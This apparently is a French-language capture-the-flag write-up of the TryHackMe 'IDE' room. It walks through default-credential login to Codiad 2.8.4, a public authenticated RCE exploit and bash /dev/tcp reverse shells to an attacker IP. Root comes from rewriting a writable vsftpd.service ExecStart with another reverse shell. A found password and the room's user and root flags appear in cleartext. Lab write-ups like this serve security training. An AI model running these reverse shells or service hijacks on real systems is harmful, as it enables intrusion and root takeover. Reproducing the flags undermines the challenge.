# TryHackMe IDE Writeup

Je commence comme d'habitude par un scan de la box



4 ports ouverts : 

1. 21/ftp
2. 80/http
3. 22/ssh
4. 62337/unknown

Je commence par le serveur ftp qui nous autorise une authentification grâce au login "anonymous"

On récupère un fichier appelé "-"



On obtient deux potentiels usernames 

    john
    drac

et l'information que le mot de passe utilisé est celui par défault

En naviguant sur le serveur http j'ai affaire à une simple page apache qui nous est inutile 

Je me rends alors sur le port "62337" ou tourne "Codiad 2.8.4" qui est un ide en ligne

J'essaie l'identifiant "John" avec le mot de passe par défault "password"

Bingo me voilà connecté 

En naviguant sur le site je vais créer un projet avec l'absolute path 

    /var/www/html/codiad/xplo1t

## Exploitation

En me rendant sur : https://www.exploit-db.com/

Je trouve un exploit qui me parait intéressant pour notre cas 

https://www.exploit-db.com/exploits/50474

On y apprend que l'IDE est vulnérable à une Authenticated Remote Code vulnerability



Une fois téléchargé, il ne reste plus qu'à le lancer 

    python3 exploit.py

    python exploit.py http://target-ip/ username password kali-ip port platform

Je me rends alors sur l'url:

    http://10.10.220.48:62337/xplo1t/shell.php

On cherche un reverse shell donc je vais executer dans l'IDE
    
    bash -c 'exec bash -i &>/dev/tcp/10.9.14.188/1244 <&1'

Juste avant je lance mon listener 

    nc -lvnp 1244



Me voilà avec un reverse shell



L'étape d'après est de stabiliser le reverse shell

    which python3
    python3 -c 'import pty;pty.spawn("/bin/bash");'
    export TERM=xterm

Grâce à ça on obtien un shell plus solide qui va notamment nous donner accès à la commande "clear" et "vim"

# Privilege Escalation

On va télécharger nos script de PE sur la machine

On peut le faire en démarrant un web server python





Les Imagets ne nous sortent rien d'intéressant 

On va donc devoir énumérer la box manuellement 

On remarque que nous avons le droit de lecture sur le dossier "/home"



    drac : Th3dRaCULa1sR3aL



Il ne nous reste plus qu'à récupérer user.txt

    user : 02930d21a8eb009f6d26361b2d24a466

Avec un basique "sudo -l" on peut voir que l'user "drac" a accès au "service" binary dans le contexte ou il est root. Il peut spécifiquement "restart the vsftpd daemon as root"



On va maintenant run "linpeas.sh" pour voir si le script peut nous énumérer une vulnerabilité lié à l'user drac.





On peut voir qu'on a le droit d'écriture sur un fichier service. C'est notre vecteur d'attaque pour notre escalation de privilège



Pour pouvoir modifier ce fichier ilest nécessaire de stabiliser notre shell pour pouvoir y acceder avec vim

    Ctrl+Z #to background the current shell
    stty raw -echo;fg



On peut maintenant modifier le fichier "vstpd.service"

On remplace "ExecStart=" par :

    ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.9.14.188/8080 0>&1"

Je lance mon listener 

    nc -nvlp 8080

On va maintenant redémarrer vstpd daemon 



On regarde notre listener et bingo ! 

Nous voici avec un root shell et le flag 



    root : ce258cb16f47f1c66f0b0b77f4e0fb8d

